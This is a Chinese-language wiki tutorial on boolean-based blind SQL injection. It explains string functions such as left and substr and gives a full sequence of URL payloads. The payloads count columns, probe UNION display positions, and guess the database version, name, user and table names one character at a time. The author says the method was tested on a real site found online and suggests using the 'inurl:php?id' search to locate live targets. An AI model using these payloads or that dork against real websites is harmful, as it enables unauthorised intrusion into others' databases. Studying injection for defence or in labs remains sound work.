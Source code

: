 ```yaml
---
title: 布尔盲注
toc: true
description: 简要介绍布尔盲注的流程，并介绍常用的函数以及注入流程中常用的 payload。
summary: 简要介绍布尔盲注的流程，并介绍常用的函数以及注入流程中常用的 payload。
categories:
    - websec
    - sql injection
date: 2019-07-27 17:13:17
tags:
---
```


鉴于 sqli-lib less 5 和 webug 的布尔注入都不太规范，我又懒得看 dvwa。于是，从网上找了个标准的布尔盲注的站点，自己测试了一下，这里就不在演示了。你可以使用 inurl:php?id 去百度或谷歌一些网站看看。

# 简介

在 [webug 的布尔注入](https://xuj.me/wiki/web_security/sql_injection/boolean_based_of_webug/)已经谈到了

# 布尔盲注常用函数

[字符串截取函数](https://www.cnblogs.com/lcamry/p/5504374.htm)

## 常用（摘抄自上面链接）

### left

left(string，n)得到字符串左部指定个数的字符，一般我在猜测字符串时使用，比如：有些网站习惯于将一些数据库名/表名定义成自己网站的名字或网址去掉符号，还有一些常见的定义库表的名字，如果我逐个字符猜了几个看到和那个有匹配，我就用 left 尝试去匹配一下，当然，直接用 left 一个一个字符猜也是可以的。

Sql 用例：

(1) left(database(), 1)>'a' 查看数据库的第一位，left(database(), 2)>'ab' 查看数据库名前二位。

left(version(), 1) > '5'

(2) 同样的 string 可以为自行构造的 sql 语句。

### substr

substr(string, start, length) 第一个参数为要处理的字符串，start 为开始位置，length 为截取的长度。

Sql 用例：

(1) substr(DATABASE(),1,1)>’a’,查看数据库名第一位，substr(DATABASE(),2,1)查看数据库名第二位，依次查看各位字符。

一般就用它来一个字符一个字符的猜。

### regexp 正则

这里，暂时还没用过，看下面链接吧，用到再说。

[sql 盲注之正则表达式攻击](https://www.cnblogs.com/lcamry/articles/5717442.html)

# 流程

### 猜字段

```php
?id=10 order by 14--+
```

### 看显示位

```php
?id=-10 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 --+
```

看看有没有显示位，**_一定注意：_**把 id = 10 改成 id = -10，让前面查询无果(说道这里，大声哭泣..)，**如果有显示位就没必要盲注了**。

对于布尔盲注来说，当然是没有显示位了。

### 数据库版本

用 substr 一个个猜测，一般从 5 开始，5.6 和 5.7 比较常见，当然用 left 也一样。注意：版本中的逗点也算一个字符。

```php
?id=10 and left(version(),1)='5' --+

?id=10 and left(version(),3)='5.6' --+

?id=10 and left(version(),6)='5.6.19' --+
```

### 猜当前数据库名

```php
?id=10 and ascii(substr(database(),1,1))>97 --+
```

二分思想，通过看页面是否正常，一个个猜，逐渐逼近。

当然，如果前几个字母网站名或常用名，不妨直接猜测整体试试。

### 猜当前用户名

```php
?id=10 and length(user())>6 --+
```

有的网站使用：网站名@localhost 的形式，还是一句话，随机应变。

### 库中的表的个数

```php
?id=10 and (select count(table_name) from information_schema.tables where table_schema=database())>5 --+
```

### 爆表

#### 爆第一个表的长度

```php
?id=10 and (select length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=9) --+
```

#### 爆表的名称

```php
?id=10 and (select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97) --+
```

后面就不详细讲了，参考回显注入语句与上面语句自己构造就好了。
